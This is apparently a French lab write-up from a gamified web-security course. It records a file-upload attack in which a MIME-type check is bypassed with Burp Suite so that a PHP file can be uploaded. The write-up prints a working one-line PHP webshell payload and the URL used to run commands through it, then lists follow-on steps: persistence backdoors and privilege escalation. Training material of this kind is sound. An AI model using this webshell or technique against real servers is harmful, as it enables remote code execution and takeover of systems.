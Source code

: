 
# 🧨 Mission 4.4 – Upload, Fichier temporaire & Exécution webshell (RCE)

---

## 🎯 Objectif
Exploiter un formulaire d’upload vulnérable pour injecter un fichier `.php` et obtenir une exécution de code distante (RCE), en contournant les protections basées sur le type MIME.

---

## 🧠 Compétences développées

| Compétence | Détail |
|------------|--------|
| 🔎 Analyse des headers | Comprendre `Content-Type` et `Content-Disposition` |
| 🧠 Interception de requête | Utiliser Burp Suite pour manipuler une requête `POST` |
| 🎭 Bypass MIME | Contourner la protection côté serveur en trompant le type MIME |
| 💻 RCE Webshell | Obtenir l’exécution d’un script `.php` en environnement réel |
| 🔥 Observation serveur | Vérifier les erreurs de type 403/404 ou les changements de comportement |

---

## 📂 Détail de l’attaque réalisée

- **Fichier uploadé** : `shell.php`
- **Payload** :
```php
<?php system($_GET['cmd']); ?>
```
- **Outil utilisé** : Burp Suite
- **Modification** : `Content-Type` changé en `image/jpeg` manuellement
- **URL d’accès** : `/files/shell.php?cmd=whoami` (exécution confirmée)
- **Réponse du serveur** : le shell PHP a été interprété et la commande exécutée

---

## 🛡️ Comportement du serveur

| Élément | Observation |
|---------|-------------|
| Extension `.php` | Acceptée si `Content-Type` est masqué |
| Contrôle MIME | Filtrage léger basé sur l’en-tête uniquement |
| Upload | Pas de whitelist réelle ni de vérification serveur |
| Résultat | Le fichier `.php` est stocké et interprété |

---

## 🌟 Évaluation stratégique

| Attaque | Risque | Réalisme |
|---------|--------|----------|
| Webshell Upload avec MIME Bypass | ⭐⭐⭐⭐⭐ | ⭐⭐⭐ |

> 💡 Attaque très critique encore présente dans des applications legacy, intranet, outils low-code mal configurés.

---

## 🧠 Hypothèse offensive

Un attaquant pourrait :
- Prendre le contrôle du serveur via `system()` ou `exec()`
- Uploader un backdoor PHP pour persistance
- Enchaîner sur une élévation de privilèges Linux

---

## 🏅 Badge débloqué

📥💀 **Payload Smuggler**  
> *"Tu sais faire passer un poison dans un costume d’image innocente."*

---

## ✅ Mission validée

- [x] Upload réussi avec contournement MIME
- [x] Exécution du fichier `.php` vérifiée
- [x] Burp Suite utilisé pour manipuler la requête
- [x] Analyse du serveur complétée
- [x] Hypothèse d’exploitation rédigée

---

## ⏭️ Suite proposée : Mission 4.5 – Upload + bypass extension & double encoding
